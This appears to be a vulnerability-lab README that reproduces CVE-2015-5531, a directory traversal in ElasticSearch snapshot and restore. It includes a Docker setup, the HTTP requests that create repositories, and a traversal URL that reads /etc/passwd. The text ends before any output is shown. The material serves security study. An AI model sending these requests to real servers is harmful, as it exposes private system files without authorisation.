

# ElasticSearch Snapshot and Restore Directory Traversal (CVE-2015-5531)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

In the ElasticSearch versions before 1.6.1, a directory traversal vulnerability exists in ElasticSearch's snapshot and restore functionality, allowing attackers to read arbitrary files on the system.

The conditions for exploiting this vulnerability vary depending on the specific version of the target: in ElasticSearch 1.5.1 and earlier versions, this vulnerability could be triggered without any configuration; in later versions, the `path.repo` configuration must be set in elasticsearch.yml. This configuration specifies a directory that must be writable and serves as the root location for backup repositories. Without this configuration, the snapshot and restore functionality is disabled by default.

References:

- <https://www.exploit-db.com/exploits/38383/>
- <http://www.freebuf.com/vuls/99942.html>

## Environment Setup

Execute the following commands to build and start an ElasticSearch server 1.6.0:

```
docker compose build
docker compose up -d
```

After the environment starts, you can access the ElasticSearch server at `http://your-ip:9200`.

## Vulnerability Reproduction

### 1. Create a Repository

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```


### 2. Create a Snapshot

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```



### 3. Exploit Directory Traversal to Read Files

Send a request to read arbitrary files using directory traversal. For example, to read `/etc/passwd`:

```
http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```


The file content will be included in the error message (encoded). After decoding, you can obtain the file content:


